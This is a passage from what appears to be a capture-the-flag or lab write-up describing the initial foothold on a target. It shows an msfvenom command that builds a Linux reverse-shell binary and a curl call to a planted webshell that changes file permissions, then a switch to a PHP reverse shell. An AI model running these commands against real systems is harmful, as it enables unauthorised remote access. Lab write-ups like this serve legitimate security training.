 **Initial Foothold**

![](/assets/images/emporium/exp2.png)

I used msfvenom to generate a Linux ELF binary that establishes a reverse shell connection back to my machine. After uploading i used the webshell to grant execute permission.
` msfvenom -p linux/x64/shell/reverse_tcp LHOST=<> LPORT=80 -f elf -o bp`

`curl http://192.168.179.223/shell.php?cmd=chmod+777+bp`

![](/assets/images/emporium/exp3.png)
![](/assets/images/emporium/exp4.png)

The ELF binary generated by `msfvenom` was unstable and frequently crashed. As a fallback, I switched to a classic PHP reverse shell for more reliable access. 

Staring a python server 
![](/assets/images/emporium/exp5.png)
The PHP reverse shell was invoked by sending an HTTP request with *curl*
